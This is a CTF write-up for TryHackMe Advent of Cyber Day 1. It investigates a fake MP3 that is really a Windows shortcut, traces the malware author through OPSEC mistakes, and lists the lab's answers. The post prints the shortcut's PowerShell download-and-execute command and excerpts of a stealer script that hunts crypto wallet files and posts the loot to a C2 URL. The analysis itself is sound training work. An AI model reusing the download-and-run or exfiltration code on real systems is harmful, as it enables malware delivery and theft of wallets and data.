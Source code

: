 ```yaml
---
categories:
- CTF
layout: post
image:
    path: Starting.gif
media_subpath: /assets/posts/2024-12-01-THM-Advent-Day-1
tags:
- Basic
- MerryChristmas
- THM
title: THM - Advent of Cyber - Day 1
---
```

This CTF is done mainly with following the instructions in the task. 

![alt text](image-1_1.png)

## Objectives :


    Learn how to investigate malicious link files.
    Learn about OPSEC and OPSEC mistakes.
    Understand how to track and attribute digital identities in cyber investigations.

Let's begin by starting the machine and scanning for the open ports:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-23 07:14 GMT
Nmap scan report for tryhackme.machine
Host is up (0.00060s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

```

Looks like we have ssh and 2 HTTP ports ports open. Following the instructions let's begin to investigate the website of the host.

![alt text](image.png)

We landed this kind of page which is a YouTube converter. Let's try to convert a random video with it.

![alt text](image-1.png)

We ended up getting an archive called ````download.zip```` These files might contain some information.

````
root@tryhackmeuser:~/Desktop# file somg.mp3
somg.mp3: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Sep 15 07:14:14 2018, mtime=Sat Sep 15 
07:14:14 2018, atime=Sat Sep 15 07:14:14 2018, length=448000, window=hide
````
````
root@tryhackmeuser:~/Desktop# file song.mp3
song.mp3: Audio file with ID3 version 2.3.0, contains:MPEG ADTS, layer III, v1, 192 kbps, 44.1 kHz, Stereo
````

File recognized ````song.mp3```` to be a genuine mp3-file but ```somg.mp3``` is a Windows shortcut file which is a ``` .lnk ``` file.

Now let´s use some other forensics tools like ExifTool to extract more information about it.

```` 
root@tryhackmeuser:~/Desktop# exiftool somg.mp3
ExifTool Version Number         : 11.88
File Name                       : somg.mp3
Directory                       : .
File Size                       : 2.1 kB
File Modification Date/Time     : 2024:10:30 14:32:52+00:00
File Access Date/Time           : 2024:12:23 07:27:32+00:00
File Inode Change Date/Time     : 2024:12:23 07:26:18+00:00
File Permissions                : rw-r--r--
File Type                       : LNK
File Type Extension             : lnk
MIME Type                       : application/octet-stream
Flags                           : IDList, LinkInfo, RelativePath, WorkingDir, CommandArgs, Unicode, TargetMetadata
File Attributes                 : Archive
Create Date                     : 2018:09:15 08:14:14+01:00
Access Date                     : 2018:09:15 08:14:14+01:00
Modify Date                     : 2018:09:15 08:14:14+01:00
Target File Size                : 448000
Icon Index                      : (none)
Run Window                      : Normal
Hot Key                         : (none)
Target File DOS Name            : powershell.exe
Drive Type                      : Fixed Disk
Volume Label                    : 
Local Base Path                 : C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Relative Path                   : ..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Working Directory               : C:\Windows\System32\WindowsPowerShell\v1.0
Command Line Arguments          : -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
Machine ID                      : win-base-2019
````
It contains an PowerShell command which downloads a script from github repo and the author of the script is visible. Bad OPSEC. Let's download the script and see what it contains.

````
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}
````

Downloaded script seems to be having some malicious code for searching cryptocurrency wallets in Windows environment. As mentioned earlier the author of script is visible, we can now investigate further via visiting this repository.

![alt](image-3.png)

Visiting the repository, there are few issues which are containing this string ````"Created by the one and only M.M."````

![alt text](image-4.png)

Especially this comment draws attention the author is saying that PowerShell is the language mainly preferred. Now looking at the profile i landed on the configuration page of this account and it contained information example full declaration of this abbreviation. ````M.M```` is called ````Mayor Malware````

So the lesson here was that this is a classic case of a bad OPSEC = Operational Security. The whole downloading process was done via the link to this author's own github repository which is not a good way to hide yourself. Also the script contained strings and sentences which are also used in the public repository. 

By using tool called Strings we can extract some information of the ````song.mp3```` file. This contained the author of the song.

````
TAGMount HackIt
Tyler Ramsbey
2024
````


In the script you can see one of the answers, which C2 server this script will send the acquired data.

````
# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}
````




<h3>Answer the questions below</h3>

Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

````Tyler Ramsbey````

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

````http://papash3ll.thm/data````

Who is M.M? Maybe his Github profile page would provide clues?

````Mayor Malware````

What is the number of commits on the GitHub repo where the issue was raised?

````1````











